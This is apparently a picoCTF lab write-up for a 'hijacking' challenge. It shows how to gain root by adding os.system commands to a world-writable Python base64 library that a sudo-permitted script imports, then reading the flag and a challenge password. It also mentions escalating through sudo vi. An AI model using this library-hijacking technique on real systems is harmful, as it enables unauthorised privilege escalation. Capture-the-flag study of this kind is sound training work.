

# hijacking

main objective is privelige escalation. now first when we `ls` we get a blank output because our file is hidden, so we use `ls -al` and we find a python file called server.py that has root priviliges to edit only

```
picoctf@challenge:~$ ls -al
-rw-r--r-- 1 root    root     375 Mar 16  2023 .server.py
```
seeing inside that python file we see that imports a bunch of libraries and execution command.
```python
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```
though when we can't actually run this file because picoctf.org itself doesn't exist as a host

```
picoctf@challenge:~$ python3 ./.server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File "./.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```

but point being is that we have  a file that runs on root till line 7 and imports a bunch of python libraries. The challenge file tells us to mess with a python file. 

**THIS IS EXPLOITABLE 😃**

so there are three libraries base64, os, socket. so we need to find where these libraries are located. after googling, it is known that they are located at `/usr/lib/python{version}`. 

```
picoctf@challenge:/usr/lib/python3.8$ ls -al base64.py socket.py os.py
-rwxrwxrwx 1 root root 20382 May 26 14:05 base64.py
-rw-r--r-- 1 root root 38995 May 26 14:05 os.py
-rw-r--r-- 1 root root 35243 May 26 14:05 socket.py
```

we see that we have edit previliges for base64.py. THEY ARE ASKING FOR IT. so we have to edit some code in here to run any command for us in root level. 

so we need to edit base64.py including os and running remote commands

after trying i realized i hadn't done an important step, which was to check which commands i had sudo access to

```
picoctf@challenge:/usr/lib/python3.8$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```
and our work was made way easier. as, if we run the command `sudo /usr/bin/python3 /home/picoctf/.server.py` it will run without password on root. and `vi` can be used on all files that is available for the user. 

Now we edit base64.py with executable commands and run them.

```python
#! /usr/bin/python3.8

"""Base16, Base32, Base64 (RFC 3548), Base85 and Ascii85 data encodings"""

# Modified 04-Oct-1995 by Jack Jansen to use binascii module
# Modified 30-Dec-2003 by Barry Warsaw to add full RFC 3548 support
# Modified 22-May-2007 by Guido van Rossum to use bytes everywhere

import re
import struct
import binascii

import os         
os.system("id")    # Commmand added


__all__ = [
...
```
```
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
uid=0(root) gid=0(root) groups=0(root)
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```

**WE GOT ROOT ACCESS 🥳🥳**

now is just to search for where this flag is, i searched around the parts that weren't accessible and found root and challenge folders were unaccesible, so digging in them we find flag

```
import os
os.system("ls -al /")
os.system("ls -al /root")
os.system("ls -al /challenge")
os.system("cat /challenge/metadata.json")
print("")
os.system("cat /root/.flag.txt")
```
```
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
total 0
drwxr-xr-x    1 root   root     51 Oct 29 06:10 .
drwxr-xr-x    1 root   root     51 Oct 29 06:10 ..
-rwxr-xr-x    1 root   root      0 Oct 29 06:10 .dockerenv
lrwxrwxrwx    1 root   root      7 Mar  8  2023 bin -> usr/bin
drwxr-xr-x    2 root   root      6 Apr 15  2020 boot
d---------    1 root   root      6 Aug  4 21:12 challenge
drwxr-xr-x    5 root   root    340 Oct 29 06:10 dev
drwxr-xr-x    1 root   root     66 Oct 29 06:10 etc
drwxr-xr-x    1 root   root     21 Aug  4 21:10 home
lrwxrwxrwx    1 root   root      7 Mar  8  2023 lib -> usr/lib
lrwxrwxrwx    1 root   root      9 Mar  8  2023 lib32 -> usr/lib32
lrwxrwxrwx    1 root   root      9 Mar  8  2023 lib64 -> usr/lib64
lrwxrwxrwx    1 root   root     10 Mar  8  2023 libx32 -> usr/libx32
drwxr-xr-x    2 root   root      6 Mar  8  2023 media
drwxr-xr-x    2 root   root      6 Mar  8  2023 mnt
drwxr-xr-x    2 root   root      6 Mar  8  2023 opt
dr-xr-xr-x 2402 nobody nogroup   0 Oct 29 06:10 proc
drwx------    1 root   root     23 Aug  4 21:12 root
drwxr-xr-x    1 root   root     54 Oct 29 06:10 run
lrwxrwxrwx    1 root   root      8 Mar  8  2023 sbin -> usr/sbin
drwxr-xr-x    2 root   root      6 Mar  8  2023 srv
dr-xr-xr-x   13 nobody nogroup   0 Oct 29 06:10 sys
drwxrwxrwt    1 root   root      6 Aug  4 21:12 tmp
drwxr-xr-x    1 root   root     29 Mar  8  2023 usr
drwxr-xr-x    1 root   root     28 Mar  8  2023 var
total 12
drwx------ 1 root root   23 Aug  4 21:12 .
drwxr-xr-x 1 root root   51 Oct 29 06:10 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Aug  4 21:12 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
total 4
d--------- 1 root root   6 Aug  4 21:12 .
drwxr-xr-x 1 root root  51 Oct 29 06:10 ..
-rw-r--r-- 1 root root 103 Aug  4 21:12 metadata.json
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}", "username": "picoctf", "password": "16IiP0AsuU"}
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```

UPDATE:
I did google after this other writeups and found this site exists called [GTFObins](https://gtfobins.github.io/) which has commands used to bypass local security restrictions. as we had vi access to (ALL) we can just use this command to have super user access
